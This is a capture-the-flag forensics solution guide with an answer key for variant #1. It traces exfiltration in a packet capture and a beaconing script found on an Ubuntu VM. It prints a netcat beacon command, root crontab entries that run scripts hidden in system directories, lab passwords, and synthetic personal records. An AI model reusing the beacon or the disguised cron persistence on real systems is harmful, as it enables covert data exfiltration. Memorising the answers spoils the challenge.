

# Where Does the Data Go?

_Solution Guide_

## Overview

There are four possible variants for this challenge. This solution guide covers the walk-through for variant #1 and is organized by submission question. The steps used to solve all variants will be similar, but the answers will vary.

To begin the challenge, open the Kali Linux box, then open the CD-ROM drive. A packet capture is the only file available here. This guide uses Wireshark to open and analyze the file, but other tools can be used to complete this challenge.

### Answer Quick Reference for Variant #1

The correct answers for variant #1 are provided here for your convenience.

1. `10.5.5.135`
2. `SueBartlett95@verizon.net`
3. `g0r3bw@jkp`
4. `3428958358`
5. `a1dba301`
6. `d62a2669`
7. `ldoc.sh`

## Question 1

*Something appears to have been exfiltrating user data records from a source on the 10.5.5.0/24 network address space. Using the provided packet capture, identify the IP address where the data is being sent to.*

To answer this question, review a packet capture and identify exfiltrated user data records. While there is no obvious reason to narrow the destination IP address range to the 10.5.5.0/24 network, reading ahead and solving another question such as Question 3 or  Question 5 might give you a hint.

Try filtering by `ip.dst == 10.5.5.0/24`. This will filter the results down to about 1,000 records.

You will see some HTTP traffic. Add `&& http`  to the filter. You will also notice a series of **GET** requests to 10.5.5.135.


Further inspection reveals an HTTP header named Target. This is a base64-encoded string. Try decoding some of these values using the following command:

```
base64 -d <<< RwBlAG8AYwBoAGUAbQBpAHMAdAAsAEgAdQBnAGgAZQBzACAATABMAEMALAAzADYAMwAtADkAMQAtADIANgA4ADkALAAiADcAMwAwADcAIABBAGQAYQBtACAAQwBsAGkAZgBmACwASwBlAGwAbAB5AHAAbwByAHQALAAgAEMAVAAgADAAMwA5ADQAMwAiACwAIgAoAEQAZQBjAGkAbQBhAGwAKAAnADgANgAuADIAOAA0ADUANgAyADUAJwApACwAIABEAGUAYwBpAG0AYQBsACgAJwAzADEALgA4ADUAMwA0ADMAMAAnACkAKQAiACwAQgAtACwAIgBbACcAaAB0AHQAcABzADoALwAvAGgAbwBsAGwAYQBuAGQALgBjAG8AbQAvACcALAAgACcAaAB0AHQAcAA6AC8ALwB5AGEAbgBnAC4AYgBpAHoALwAnAF0AIgAsAEMAaAByAGkAcwB0AG8AcABoAGUAcgBXAG8AbABmAGUANAAsAEMAaAByAGkAcwB0AG8AcABoAGUAcgAgAFcAbwBsAGYAZQAsAE0ALAAiADQANQAyADMAIABXAG8AbwBkACAAUwBoAG8AYQBsACwARQBhAHMAdAAgAEoAbwBoAG4ALAAgAFQATgAgADUAMwA3ADMAMAAiACwAQwBoAHIAaQBzAHQAbwBwAGgAZQByAFcAbwBsAGYAZQA0AEAAYwBlAG4AdAB1AHIAeQB0AGUAbAAuAG4AZQB0ACwANwAvADMAMAAvADEAOQAyADQALABGAEEATABTAEUALABTAG8AYwBpAGEAbAAgAG0AZQBkAGkAYQAgAHAAbwBzAHQAaQBuAGcAcwAgAHUAbgBmAGEAdgBvAHIAYQBiAGwAZQAgAHQAbwAgAGEAbABpAGUAbgAgAGkAbgB0AGUAcgBhAGMAdABpAG8AbgA=

Geochemist,Hughes LLC,363-91-2689,"7307 Adam Cliff,Kellyport, CT 03943","(Decimal('86.2845625'), Decimal('31.853430'))",B-,"['https://holland.com/', 'http://yang.biz/']",ChristopherWolfe4,Christopher Wolfe,M,"4523 Wood Shoal,East John, TN 53730",ChristopherWolfe4@centurytel.net,7/30/1924,FALSE,Social media postings unfavorable to alien interaction
```



The decoded value you see may vary depending upon which of the records you chose to decode. You will see that user data was being exfiltrated via the HTTP headers to IP address: **10.5.5.135**. The correct submission for Question 1 is: `10.5.5.135`.


## Question 2

*Using the provided packet capture, what is the email address of the toxicologist whose data was being exfiltrated in Question 1?*

Continuing the analysis from Question 1, you will have to examine one or more of the GET requests going to 10.5.5.135, decoding the values until you come across the correct one. The sixth HTTP GET request to 10.5.5.135 contains  the toxicologist's data.

```
Toxicologist,"Collier, Sanchez and Moreno",773-90-6127,"USCGC Clark,FPO AP 99384","(Decimal('61.5462805'), Decimal('156.872758'))",AB+,"['https://stephenson.com/', 'https://anderson.org/', 'http://www.chavez-simpson.com/']",SueBartlett95,Sue Bartlett,F,"542 Gordon Haven,Tylerborough, PA 63544",SueBartlett95@verizon.net,10/6/1921,FALSE,Social media postings unfavorable to alien interaction
```


The email address in this record is the correct answer: `SueBartlett95@verizon.net`.

## Question 3

*Using the provided packet capture, what is the password that was sent to a web-based form?*

Here you are searching for a password posted to a web form. Since most passwords sent to web forms use a **POST**, start with the following filter: `http.request.method == "POST"`. There is a lot to search through. 

Try searching the filtered data by using the following settings: **Packet details**, **Narrow & Wide**, **String**, and  **"password"**. This will immediately take you to a packet with the destination IP address of 10.5.5.20. It is an HTTP POST to `/success.html`.


Looking at the packet details, you will see a `Form item: "password" = "g0r3bw@jkp"`. This value --  `g0r3bw@jkp` -- is the correct answer.

> Note the destination IP address. Knowing this may may help you solve the other questions by giving you an IP address on the 10.5.5.0/24 network.

## Question 4

_Using the provided packet capture, provide the TCP sequence number (raw) of the first packet in the TCP stream for the login attempt in Question 3._

You'll need to provide the TCP sequence number of the first packet in the identified TCP stream. Using the instructions from Question 3, find the packet with the **HTTP POST**. Right-click the packet and select **Follow** > **TCP Stream**. You will see that this is **TCP Stream 540**. 


Change the Wireshark filter to: `tcp.stream eq 540`.

Go to the first packet in this stream. Expand the packet details, TCP details, and note the **Sequence Number (raw)**.  The correct answer is: `3428958358`.


## Question 5

*Using the provided packet capture, what token value was displayed in the image requested from a web server running at 10.5.5.20?*

Find an image in the packet capture that contains a hexadecimal token value. We know the IP address (10.5.5.20) and that it was requested from a web server. Change the Wireshark filter to: `ip.dst == 10.5.5.20 && http`. You will see a request for **/img1.png**.


Highlight this packet. Choose **File** > **Export Objects** > **HTTP**. In the **Text Filter**, enter `img1`.


Select the only result, then click the **Preview** button. The answer is displayed as an image with the following string value: `a1dba301`. 


## Question 6

*Analyze the Ubuntu desktop machine. What are the 8 ASCII characters sent as packet data every 30 seconds?*

Find the token that is repeatedly sent about every 30 seconds from the Ubuntu desktop to a target machine. On the Ubuntu virtual machine, open Wireshark from the terminal with the following command: `sudo wireshark`. The password is `tartans`.

Start capturing packets on the default network interface by clicking the shark fin icon. After watching the traffic for a brief period of time you will see network traffic repeating roughly every 30 seconds. Look at the repeating UDP calls and examine the **Data** field to find the correct answer: `d62a2669`.


## Question 7

*Analyze the Ubuntu desktop machine. What is the name of the script that is actively beaconing to an unidentified target roughly every 30 seconds?*

Find the name of the script running on the Ubuntu desktop machine that is sending the data identified in the packets captured in Questions 6 and 7. Open Wireshark from the terminal with the following command: `sudo wireshark`. The password is `tartans`.

Start capturing packets on the default network interface by clicking the shark fin icon. After watching the traffic for a brief period of time you will see network traffic repeating roughly every 30 seconds.


There are multiple ways to arrive at this answer, but if you start by looking at the process list with the command `ps -e`, you might find a few hints. You will see one or more **cron** processes. A good place to check for repeating processes could be the crontab command. 

If you enter `crontab -e` in the terminal, you won't find anything useful. However, entering `sudo crontab -e` will show a list of commands with sleep commands for 30-second intervals.

```
* * * * * /etc/security/limits.d/ldoc.sh
* * * * * ( sleep 30 ; /etc/security/limits.d/ldoc.sh )
* * * * * /etc/sgml/docbook-xml/4.2/sd.sh
* * * * * ( sleep 30 ; /etc/sgml/docbook-xml/4.2/sd.sh )
* * * * * /var/lib/plymouth/xlib.sh
* * * * * ( sleep 30 ; /var/lib/plymouth/xlib.sh )
* * * * * /var/lib/dpkg/alternatives/binw.sh
* * * * * ( sleep 30 ; /var/lib/dpkg/alternatives/binw.sh )
```


If you begin looking at the paths listed in the crontab file, you will find one of the referenced shell scripts. Which one is actually present will depend on the challenge variant. Once you find one of these scripts and open it you will see which command is being used to send the data: `echo "d62a2669" | nc -u 10.5.5.201 2102`.


The data being echoed--along with the port and IP being used--will match the data you find in Wireshark, confirming you have identified the script sending the data. The correct answer to this question is `ldoc.sh`.
